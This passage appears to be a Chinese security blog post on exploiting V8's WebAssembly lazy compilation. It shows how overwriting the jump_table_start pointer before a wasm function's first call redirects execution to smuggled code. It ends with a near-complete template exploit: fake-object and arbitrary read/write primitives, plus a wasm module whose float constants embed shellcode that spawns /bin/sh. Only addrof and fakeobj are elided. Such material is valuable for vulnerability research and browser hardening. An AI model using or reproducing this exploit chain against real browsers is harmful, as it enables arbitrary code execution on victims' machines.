

**重点！重点！重点！****这里的地址虽然是对应****WasmInstanceObject => trusted\_data => jump\_start\_table**的内容，但是这里并非从jump\_start\_table中读取，而是从其他地方获取的，如果追踪r10和r13寄存器的来源，也能够注意到。

### Lazy Compilation

注意观察上面截图的信息，可以注意到Lazy Compilation是一种自行实现的功能，逻辑与动态链接的LazyBinding流程非常相似。这里的`Builtins_WasmCompileLazy`在执行完成后，会更改`0x6116a603000: jmp 0x6116a603800`变为直接跳转真实代码地址，如`0x6116a603000: jmp 0x6116a604040`



上图的`push 0`，就是函数在调用`CompileLazy`时，所对应的wasm函数索引，这里由于是第一个wasm函数，索引自然为0。我们可以继续追踪程序流，该函数会完成下面的内容

* 将实际的wasm代码写入内存;
* 修改**jump\_start\_table**地址所存储的jmp命令，直接变为跳转真实的wasm代码地址。

在`Builtins_WasmCompileLazy`函数结束处，才会从**WasmInstanceObject => trusted\_data => jump\_start\_table**处读取内容信息，然后直接跳转过去



这里的`add r15, qword ptr [rsi + 0x27]` 可以直接job就能看到，对应就是从**WasmTrustedInstanceData**对象对应**jump\_table\_start**指针偏移处取出对应的内容，然后`jmp r15`



### 如何利用

由于`Builtins_WasmCompileLazy`将真实代码放置的位置，相对于**jump\_table\_start**，的偏移是固定的。如这里是`0x840`，我们可以在初次调用函数前，就将**jump\_table\_start**改为错位的shellcode地址。



比如这里的完整偏移为`0x89c`，那么直接更改**WasmInstanceObject**对象内的**jump\_start\_table**指针即可

```
let shell_wasm_instance_addr = addrof(shell_wasm_instance);
console.log("Shell WASM instance addr: 0x" + shell_wasm_instance_addr.toString(16));
let shell_wasm_trusted_data_addr = f2i(aar(shell_wasm_instance_addr + 0x8n))>>32n;
console.log("Shell WASM trusted data addr: 0x" + shell_wasm_trusted_data_addr.toString(16));
let jump_table_start_addr = f2i(aar(shell_wasm_trusted_data_addr + 0x28n));
console.log("Jump Table Start addr: 0x" + jump_table_start_addr.toString(16));
let shell_code_addr = jump_table_start_addr + 0x89cn;
console.log("Shell code addr: 0x" + shell_code_addr.toString(16));
aaw(shell_wasm_trusted_data_addr + 0x28n, shell_code_addr);

shell_func();//一定是初次调用
```



我们来稍微总结分析下为什么在函数初次调用前直接更改**jump\_start\_table**，就能够劫持程序流，但却不影响`JSToWasmWrapper`和**Lazy Compilation**的正常流程。

关键点在于：

* `JSToWasmWrapper`虽然会用到**jump\_start\_table**同一个地址，但是并不是从**WasmInstanceObject**中读取的，因此WASM的封装函数流程不会收到影响，而会正常的调用**Lazy Compilation**
* 由于我们只更改了**WasmInstanceObject**内的指针，而**Lazy Compilation**的本身在生成汇编代码时，其实只需要`push 0`送入的索引，因此前期流程也不会受影响
* 当**Lazy Compilation**流程完成时，此时才会从**WasmInstanceObject**中读取**jump\_start\_table**并进行跳转，也就是我们已经篡改过的内容
* 此时，程序流便会跳转至我们想要让其执行的区域

> 若程序非初次调用，`Wrapper`的外层封装会直接将程序流导向至真实代码地址，而不经过**jump\_start\_table**，此时再做任何篡改已经无济于事了。

## 总结

不考虑Sandbox逃逸时，参考的模板代码可以如下所示:

```
var f64 = new Float64Array(1);
var bigUint64 = new BigUint64Array(f64.buffer);
var u32 = new Uint32Array(f64.buffer);

function convertToHex(val) {
  return "0x" + val.toString(16);
}

function i2f(i) {
    bigUint64[0] = i;
    return f64[0];
}

function f2i(i) {
    f64[0] = i;
    return bigUint64[0];
}

function u2f(low, high) {
    u32[0] = low;
    u32[1] = high;
    return f64[0];
}

function u2i(low, high) {
    u32[0] = low;
    u32[1] = high;
    return bigUint64[0];
}

function i2u_l(i) {
    bigUint64[0] = i;
    return u32[0];
}

function i2u_h(i) {
    bigUint64[0] = i;
    return u32[1];
}

function addrof(obj) {
    ...;
}

function fakeobj(addr) {
    ...;
}


let fake_array = [
    u2f(0x001882fd, 0x00000745), // 0 map , properties
    u2f(0x41414141, 0x00001000), // 1 elements, length
    u2f(0x000008a1, 0x00001000), // elements_map, elements_length
    6.6, // buffer
];

let fake_array_addr = addrof(fake_array);
let fake_obj_addr = fake_array_addr + 0x20n;
console.log("fake_array_addr: " + convertToHex(fake_array_addr));
console.log("fake_obj_addr: " + convertToHex(fake_obj_addr));

fake_array[1] = u2f(i2u_l(fake_obj_addr + 0x10n), 0x00001000); 

let fake_obj = fakeobj(fake_obj_addr);


let js_typed_array = new Float64Array(1);
let js_typed_array_addr = addrof(js_typed_array);
console.log("js_typed_array_addr: " + convertToHex(js_typed_array_addr));
var base_pointer_offset = (js_typed_array_addr - fake_obj_addr + 0x20n) / 8n;
console.log("base_pointer_offset: " + base_pointer_offset);

function aar(addr)
{
    if(addr & 1n) {
        addr -= 1n;
    }
    addr -= 7n;
    let temp = f2i(fake_obj[base_pointer_offset]);
    fake_obj[base_pointer_offset] = i2f((temp & 0xffff_ffff_0000_0000n) + addr);
    return js_typed_array[0];
}

function aaw(addr, value)
{
    if(addr & 1n) {
        addr -= 1n;
    }
    addr -= 7n;
    let temp = f2i(fake_obj[base_pointer_offset]);
    fake_obj[base_pointer_offset] = i2f((temp & 0xffff_ffff_0000_0000n) + addr);
    js_typed_array[0] = i2f(value);
}

let array1 = [1.1, 2.2, 3.3];
let array1_elements_addr = addrof(array1) + 0x18n;

let leak = aar(array1_elements_addr + 0x8n);
console.log("leak: " + convertToHex(f2i(leak)));

aaw(array1_elements_addr + 0x8n, 0x41414141n);

let shell_wasm_code = new Uint8Array([
    0, 97, 115, 109, 1, 0, 0, 0, 1, 5, 1, 96, 0, 1, 127, 3, 2, 1, 0, 4, 4, 1, 112, 0, 0, 5, 3, 1, 0,
    1, 7, 17, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 133, 1, 1,
    130, 1, 0, 65, 0, 68, 0, 0, 0, 0, 0, 0, 0, 0, 57, 3, 0, 65, 0, 68, 106, 59, 88, 144, 144, 144,
    235, 11, 57, 3, 0, 65, 0, 68, 104, 47, 115, 104, 0, 91, 235, 11, 57, 3, 0, 65, 0, 68, 104, 47, 98,
    105, 110, 89, 235, 11, 57, 3, 0, 65, 0, 68, 72, 193, 227, 32, 144, 144, 235, 11, 57, 3, 0, 65, 0,
    68, 72, 1, 203, 83, 144, 144, 235, 11, 57, 3, 0, 65, 0, 68, 72, 137, 231, 144, 144, 144, 235, 11,
    57, 3, 0, 65, 0, 68, 72, 49, 246, 72, 49, 210, 235, 11, 57, 3, 0, 65, 0, 68, 15, 5, 144, 144, 144,
    144, 235, 11, 57, 3, 0, 65, 42, 11,
]);
let shell_wasm_module = new WebAssembly.Module(shell_wasm_code);
let shell_wasm_instance = new WebAssembly.Instance(shell_wasm_module);
let shell_func = shell_wasm_instance.exports.main;

let shell_wasm_instance_addr = addrof(shell_wasm_instance);
console.log("Shell WASM instance addr: 0x" + shell_wasm_instance_addr.toString(16));
let shell_wasm_trusted_data_addr = f2i(aar(shell_wasm_instance_addr + 0x8n))>>32n;
console.log("Shell WASM trusted data addr: 0x" + shell_wasm_trusted_data_addr.toString(16));
let jump_table_start_addr = f2i(aar(shell_wasm_trusted_data_addr + 0x28n));
console.log("Jump Table Start addr: 0x" + jump_table_start_addr.toString(16));
let shell_code_addr = jump_table_start_addr + 0x89cn;
console.log("Shell code addr: 0x" + shell_code_addr.toString(16));
aaw(shell_wasm_trusted_data_addr + 0x28n, shell_code_addr);

shell_func();
```

> 本文首发于先知社区
